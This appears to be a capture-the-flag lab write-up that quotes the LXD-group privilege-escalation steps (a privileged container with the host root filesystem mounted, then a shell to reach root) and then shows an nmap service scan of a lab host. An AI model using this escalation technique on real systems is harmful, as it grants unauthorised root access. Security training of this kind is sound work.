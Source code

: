  3. For the sake of this example, we'll be skipping close to the end (see the bolded bit above) by checking what images are readily available on the machine in question. We can do that via the following command: lxc image list   

 4. Now for the fun bit. Next, we'll run a series of commands which initialize, configure the disks, and start the container. Image name needs to match up with the imported image we'll be using. In the case of the image above, that'd be the myimage alias previously assigned to it. The container name and device name are whatever your heart desires. In my example, I'm naming my container strongbad and the device trogdor.

```bash
lxc init IMAGENAME CONTAINERNAME -c security.privileged=true
	Ex: lxc init myimage strongbad -c security.privileged=true


lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true
	Ex: lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true


lxc start CONTAINERNAME
	Ex: lxc start strongbad


lxc exec CONTAINERNAME /bin/sh
	Ex: lxc exec strongbad /bin/sh


We'll then run just a few more commands to mount our storage and verify we've escalated to root:

id
cd /mnt/root/root
```

>>And that's it! If that was a bit of a mind-bender, I highly recommend checking out the resource provided below. 

----

# MY DOCUMENTATION :
----

>>USING NMAP TO DISCOVER THE OPEN PORTS.

```bash
root@ip-10-10-138-160:~# nmap -sV -sC 10.10.36.213

Starting Nmap 7.60 ( https://nmap.org ) at 2021-11-24 14:59 GMT
Nmap scan report for ip-10-10-36-213.eu-west-1.compute.internal (10.10.36.213)
Host is up (0.0016s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
65000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Light Cycle
MAC Address: 02:D7:6B:92:E0:F5 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.22 seconds
```